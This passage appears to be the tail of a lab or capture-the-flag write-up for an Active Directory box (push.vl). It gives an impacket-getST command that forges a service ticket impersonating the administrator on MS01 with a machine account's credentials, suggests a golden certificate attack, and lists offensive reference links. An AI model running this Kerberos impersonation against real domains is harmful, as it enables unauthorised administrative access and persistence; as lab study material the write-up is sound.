 <img src="https://i.imgur.com/cKWHsRr.png"/>

Impersonating as a local admin on MS01 by creating a ticket with `getST`

```bash
impacket-getST -spn 'cifs/MS01.push.vl' -impersonate administrator -dc-ip 10.10.233.101 'push.vl'/'UwU$':TestPassword321
```

<img src="https://i.imgur.com/tf4SQdO.png"/>

<img src="https://i.imgur.com/FDB2gRH.png"/>

We can completely skip the SCCM step and perform golden certificate attack from here.

- https://infosecwriteups.com/backdooring-clickonce-net-for-initial-access-a-practical-example-1eb6863c0579
- https://www.thehacker.recipes/a-d/movement/sccm-mecm
- https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a
- https://github.com/Mayyhem/SharpSCCM
- https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html?ref=7ms.us
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-persistence
- https://github.com/AlmondOffSec/PassTheCert/tree/main/Python
- https://www.hackingarticles.in/domain-persistence-golden-certificate-attack/
